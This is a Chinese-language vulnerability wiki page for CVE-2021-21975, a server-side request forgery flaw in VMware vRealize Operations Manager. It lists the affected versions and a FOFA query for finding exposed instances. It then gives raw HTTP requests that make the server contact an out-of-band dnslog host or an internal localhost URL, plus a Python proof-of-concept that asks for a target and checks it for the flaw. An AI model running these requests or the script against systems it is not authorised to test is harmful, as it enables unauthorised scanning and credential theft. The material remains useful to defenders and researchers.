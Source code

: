 ```yaml
---
title: VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 服务器应用漏洞
 - VMware
---
```


# VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975

## 漏洞描述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。

## 漏洞影响

> [!NOTE]
>
> VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0
>
> VMware:cloud_foundation: 4.x 3.x
>
> VMware:vRealize_suite_lifecycle_manager: 8.x

## FOFA

> [!NOTE]
>
> title="vRealize Operations Manager"

## 漏洞复现

访问登录页面如下

![](/img/20210924015322860170.png)

发送请求包如下

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```

![](/img/20210924015323051505.png)

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["127.0.0.1:443/ui"]
```

![](/img/20210924015323576237.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, v):
    vuln_url = target_url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json;charset=UTF-8"
    }
    data = '["{}"]'.format(Dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
        if response.status_code == 200 :
            print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

![](/img/20210924015323925614.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> VMWare Operations vRealize Operations Manager API SSRF CVE-2021-21975 



![](/img/20210924015324242440.png)

